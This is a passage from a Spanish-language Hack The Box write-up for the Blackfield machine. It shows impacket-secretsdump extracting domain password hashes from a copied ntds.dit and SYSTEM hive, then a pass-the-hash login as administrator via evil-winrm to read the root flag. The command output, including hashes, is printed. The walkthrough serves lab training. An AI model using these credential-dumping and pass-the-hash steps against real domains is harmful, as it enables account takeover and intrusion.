┌──(kali㉿kali)-[~/htb/blackfield/exploits]
└─$ ls
ntds.dit  script.txt  system.hive
~~~
Con los archivos ntds y system se puede realizar un dumpeado para obtener todas las credenciales del dominio, no solo de la maquina local.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield/exploits]
└─$ impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL 
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
<----SNIP---->
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con los hashes, se puede entrar como administrator usando winrm como se vio que esta abierto y obtener la root flag.
~~~bash
┌──(kali㉿kali)-[~/htb/blackfield]
└─$ evil-winrm -i 10.129.229.17 -u 'administrator' -H 184fb5e5178480be64824d4cd53b99ee 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint'
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
<Encuentre su propia root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

